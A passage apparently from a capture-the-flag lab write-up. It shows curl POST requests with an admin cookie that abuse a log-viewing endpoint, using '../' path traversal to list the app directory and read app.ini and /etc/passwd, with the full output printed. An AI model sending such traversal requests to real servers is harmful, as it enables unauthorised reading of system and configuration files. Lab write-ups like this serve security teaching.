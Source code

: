 ```bash
root@darkness:~# curl http://10.10.10.195/admin/log/dir -X POST -d 'logdir=.' -b 'ADMINCOOKIE'
['__pycache__', 'app.ini', 'logs', 'lwt.py', 'static', 'wsgi.py', 'app.py', 'database.db', 'templates', 'admin.py', 'utils.py', 'app.sock']
```

We are able to list our current directory by supplying `logdir=.` as the post-data for the `/admin/log/dir` endpoint. Let us try to use `/admin/log/view` to read the `app.ini` file.

```bash
root@darkness:~# curl http://10.10.10.195/admin/log/view -X POST -d 'logfile=../app.ini' -b 'ADMINCOOKIE'
[uwsgi]
module = wsgi:app

master = true
processes = 5

socket = app.sock
chmod-socket = 660
vacuum = true

die-on-term = true
```

Using `../` we can traverse our path from `app/logs/` to `app/` and can read the `app.ini` file. Let us now try to see what users are on the system, by reading `/etc/passwd`.

```bash
root@darkness:~# curl http://10.10.10.195/admin/log/view -X POST -d 'logfile=../../../../../etc/passwd' -b 'ADMINCOOKIE'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
web:x:1001:1001:::/bin/false
Debian-snmp:x:111:113::/var/lib/snmp:/bin/false
```
